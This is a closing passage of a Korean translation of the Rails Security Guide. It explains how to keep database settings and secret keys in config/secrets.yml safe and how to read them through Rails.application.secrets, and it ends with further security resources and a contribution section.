애플리케이션의 코드나 실행 환경을 안전하게 하는 방법에 대해서는 이 가이드의 범위를 벗어납니다. 하지만 config/database.yml등에 저장되어 있는 데이터베이스의 접속 설정이나 config/secrets.yml 등에 포함되어 있는 서버의 비밀키의 안전을 확보해주세요. 이러한 파일이나 그 외의 중요한 정보를 포함할 가능성이 있는 파일을 환경에 맞추어서 복수의 버전으로 나누어 사용하는 것으로 좀 더 안전한 접근 제어를 할 수 있습니다.
10.1 커스텀 비밀키
Rails는 config/secrets.yml를 생성합니다. 이 파일은 애플리케이션의 secret_key_base를 가지고 있습니다만 외부 API 접근키와 같은 다른 비밀키를 저장할 때에도 사용할 수 있습니다.
이 파일에 들어있는 비밀키는 Rails.application.secrets를 통해서 접근할 수 있습니다. 예를 들어 다음과 같은 config/secrets.yml이 있다고 합시다.
development: secret_key_base: 3b7cd727ee24e8444053437c36cc66c3 some_api_key: SOMEKEY
개발 환경에서 Rails.application.secrets.some_api_key는 SOMEKEY를 반환합니다.
만약 어떤 키가 비어있는 경우에 에러를 발생시키고 싶다면 파괴적인 메소드를 사용하세요.
Rails.application.secrets.some_api_key! # => raises KeyError: key not found: :some_api_key
11 추가자료
급격하게 변하는 보안 동향에 항상 귀를 귀울이고, 최신 정보를 입수할 수 있도록 노력해주세요. 새로 등장한 취약점을 놓치면 돌이킬 수 없는 피해를 입을 수 도 있습니다. Rails의 보안 관련 추가 정보들을 소개합니다.
- Rails 보안 그룹 메일 리스트를 구독합시다.
- 애플리케이션의 그 이외의 계층도 가급적 최신 상태를 유지해주세요 (주간 뉴스레터도 발행합니다)
- 좋은 보안 관련 블로그에는 XSS 치트 시트가 올라와 있습니다.
피드백
이 가이드의 질을 향상시키기 위한 도움을 기다리고 있습니다.
수정이 필요한 오타나 에러를 발견하면 기여해주세요. 이를 위해서 기여 가이드를 읽어주세요.
미완성된 내용이나 업데이트되지 않은 내용이 있을 수 있습니다. 누락된 문서를 추가해 주시기 바랍니다. 최신 가이드나 마스터 브랜치를 참고하여 이미 고쳐지지 않았는지 확인하세요. 문서작성시 참고해야할 스타일과 규칙은 Ruby on Rails Guides Guidelines를 확인하시기 바랍니다.
어떤 이유에서든지, 수정이 필요한 부분을 직접 변경할 수 없는 경우에는 open an issue로 접속하여 문제점을 제출해 주시기 바랍니다.
마지막으로, 루비온레일스 문서화에 관련된 논의가 필요한 사항은 rubyonrails-docs mailing list에서 해 주시기 바랍니다.
문서생성일
최종 생성일 : 2017-06-04 12:02:27 +0000